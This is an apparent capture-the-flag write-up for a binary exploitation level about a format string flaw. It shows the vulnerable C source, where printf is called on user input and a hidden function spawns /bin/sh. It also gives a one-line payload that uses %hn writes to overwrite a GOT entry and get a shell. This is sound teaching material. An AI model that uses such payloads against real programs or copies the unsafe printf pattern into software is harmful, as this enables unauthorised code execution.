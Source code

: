 (python -c 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn"'; cat) | ./level5

this is another binary that has format string but with another twist.

```c
void    o() {
    system("/bin/sh");
    _exit(1);
}

void    n() {
    char    buff[520];

    fgets(buff, 512, stdin);
    printf(buff);

    exit(1);
}

int main(void) {
    n();
}
```

as you can see the o function is never called so we have to reach it somehow.
buffer overflow is out of the question because the program uses fgets with a length smaller than the buffer size

we will be introduced to a new concept which is overwriting the `GOT`
